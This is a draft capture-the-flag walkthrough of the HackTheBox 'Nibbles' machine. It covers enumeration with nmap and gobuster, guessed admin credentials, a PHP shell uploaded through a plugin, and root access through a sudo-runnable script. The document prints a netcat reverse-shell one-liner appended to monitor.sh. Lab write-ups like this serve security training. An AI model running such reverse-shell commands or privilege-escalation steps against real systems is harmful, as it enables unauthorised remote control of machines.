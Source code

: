 +++
tags = ["HackTheBox", "Linux", "Web Application", "RCE"]
title = "Nibbles - HTB"
weight = 10
draft = true
images = [ "/walkthroughs/Nibbles/logo.png" ]
description = "Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most."
+++

![Logo](logo.png)

Date written: April 2024     
Date published: 

## Enumeration

As always you will want to connect to your HTB VPN. 





![NMAP Scan](NMAP.png)

```bash
nc -nv  10.129.125.8 22
nc -nv  10.129.125.8 80
nmap -sV --script=http-enum 10.129.125.8
```

![NMAP HTTP enumeration and banner grabbing](NMAP2.png)

![Homepage source code](Nibbleblog.png)


```bash
gobuster dir -u http://10.129.125.8/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```
![Gobuster blog](gobuster.png)

```bash
curl http://10.129.125.8/nibbleblog/README
```
![Curl version](version.png)

![users directory location](<users file.png>)

![Users file contents](users.png)

username: admin
password: nibbles

![Log in](login.png)

![Plugin](<php shell2.png>)
![Shell file](<php shell.png>)

![Listener](listener.png)
![Shell directory](<php shell3.png>)

![Upgrade shell](<shell upgrade.png>)

Navigate to the ```/home/nibbler/user.txt``` file.

Unzip personal.zip cat monitor.sh

https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

![Python server](<python server.png>)

Nav to your IP not 0.0.0.0

chmod  +x LinEnum.sh
./LinEnum.sh

![LinEnum](LinEnum.png)

The user ```nibbler``` can run the file /home/nibbler/personal/stuff/monitor.sh with root privileges.
![sudo LinEnum](LinEnum2.png)

Write shell to monitor.sh file.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.57 8443 >/tmp/f' | tee -a monitor.sh
```

![alt text](<Root listner.png>)

![alt text](<sudo privs.png>)

Nav to /root/root.txt